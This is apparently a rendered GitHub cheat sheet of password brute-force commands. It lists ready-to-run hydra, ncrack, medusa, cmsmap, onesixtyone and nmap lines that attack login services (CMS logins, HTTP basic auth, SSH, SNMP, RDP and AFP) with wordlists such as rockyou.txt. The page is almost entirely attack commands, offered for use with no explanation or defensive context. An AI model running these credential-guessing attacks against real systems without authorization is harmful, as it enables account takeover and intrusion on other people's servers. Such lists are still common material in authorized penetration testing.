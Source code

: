 #### 

HTTP - CMS -- (W)ordpress, (J)oomla or (D)rupal or (M)oodle[](#http-cms-w-ordpress-j-oomla-or-d-rupal-or-m-oodle)

cmsmap -f W/J/D/M -u a -p a https://wordpress.com

#### 

Hydra attack http get 401 login with a dictionary[](#hydra-attack-http-get-401-login-with-a-dictionary)

hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin

### 

SSH[](#ssh)

hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt ssh://$ip

hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh

hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh

hydra -l root -P wordlist.txt $ip ssh

hydra -L userlist.txt -P best1050.txt $ip -s 22 ssh -V

hydra -l root -P passwords.txt [-t 32] <IP> ssh

ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]

medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh

### 

SNMP[](#snmp)

hydra -P wordlist.txt -v $ip snmp

nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]

onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp_onesixtyone.txt <IP>

hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp

### 

Remote Desktop Protocol[](#remote-desktop-protocol)

ncrack -vv --user admin -P password-file.txt rdp://$ip

ncrack -vv --user <User> -P pwds.txt rdp://<IP>

hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>

hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip

### 

AFP[](#afp)

nmap -p 548 --script afp-brute <IP>

### 
